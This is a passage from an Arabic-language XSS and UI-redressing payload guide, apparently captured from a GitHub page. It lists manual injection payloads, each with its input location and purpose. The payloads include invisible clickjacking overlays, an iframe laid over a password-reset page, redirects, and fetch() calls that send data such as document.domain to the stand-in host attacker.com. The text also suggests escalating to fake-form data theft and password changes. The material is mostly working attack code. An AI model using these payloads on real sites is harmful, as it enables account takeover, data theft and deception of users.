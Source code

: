 6. **تأكيد السياق وتصعيد الهجوم (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<script>fetch('http://attacker.com/log?d='+document.domain)</script>`).
   - تحقق مما إذا كانت الثغرة في بيئة معزولة (مثل iframe أو sandbox).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات النماذج المزيفة.
     - إعادة توجيه المستخدم إلى صفحة ضارة بعد النقر.
     - تغيير إعدادات الحساب (مثل إرسال طلب لتغيير كلمة المرور).

---

## جميع المحاولات الممكنة للحقن المستخدمة لتزييف واجهة المستخدم
في الحقن المستخدمة لتزييف واجهة المستخدم، المحاولات تركز على خداع المستخدم للتفاعل مع عناصر ضارة عبر التلاعب بـ DOM وCSS. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة لـ XSS.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول النماذج، معلمات URL، أو نقاط إدخال أخرى. الهدف هو تعديل واجهة المستخدم لخداع المستخدم.

#### أ. إعادة توجيه النقر (Clickjacking)
وضع عناصر شفافة أو مخفية فوق عناصر شرعية لإعادة توجيه النقر.
- **الحقن**: `<div style="position:absolute;top:0;left:0;opacity:0;width:100%;height:100%" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>`
  - **الإدخال**: أدخل في حقل تعليق: `<div style="position:absolute;top:0;left:0;opacity:0;width:100%;height:100%" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>`
  - **كيف يعمل**: يضع طبقة شفافة فوق الصفحة، وينفذ طلبًا عند النقر.
  - **متى يُستخدم؟**: لإعادة توجيه النقر إلى خادم المهاجم.
- **الحقن**: `<div style="position:absolute;top:100px;left:100px;opacity:0.1" onclick="alert('تم النقر!')">اضغط هنا</div>`
  - **الإدخال**: `https://example.com/?search=<div style="position:absolute;top:100px;left:100px;opacity:0.1" onclick="alert('تم النقر!')">اضغط هنا</div>`
  - **كيف يعمل**: يعرض تنبيهًا عند النقر على منطقة محددة.
  - **متى يُستخدم؟**: لتأكيد تفاعل المستخدم.
- **الحقن**: `<iframe src="https://example.com/reset-password" style="opacity:0;position:absolute;top:0;left:0"><div style="position:absolute;top:50px;left:50px" onclick="fetch('http://attacker.com/log')">إعادة تعيين</div></iframe>`
  - **الإدخال**: أدخل في نموذج: `<iframe src="https://example.com/reset-password" style="opacity:0;position:absolute;top:0;left:0"><div style="position:absolute;top:50px;left:50px" onclick="fetch('http://attacker.com/log')">إعادة تعيين</div></iframe>`
  - **كيف يعمل**: يضع زرًا ضارًا فوق صفحة إعادة تعيين كلمة المرور.
  - **متى يُستخدم؟**: لخداع المستخدم لتنفيذ إجراء حساس.
- **الحقن**: `<div style="position:absolute;top:0;left:0;opacity:0;z-index:9999;width:100%;height:100%" onmouseover="fetch('http://attacker.com/log')">مرر هنا</div>`
  - **الإدخال**: `https://example.com/#<div style="position:absolute;top:0;left:0;opacity:0;z-index:9999;width:100%;height:100%" onmouseover="fetch('http://attacker.com/log')">مرر هنا</div>`
  - **كيف يعمل**: ينفذ طلبًا عند تمرير المؤشر فوق الصفحة.
  - **متى يُستخدم؟**: لتتبع حركة المستخدم.
- **الحقن**: `<button style="position:absolute;top:100px;left:100px;opacity:0" onclick="document.location='http://attacker.com'">اضغط</button>`
  - **الإدخال**: أدخل في حقل: `<button style="position:absolute;top:100px;left:100px;opacity:0" onclick="document.location='http://attacker.com'">اضغط</button>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
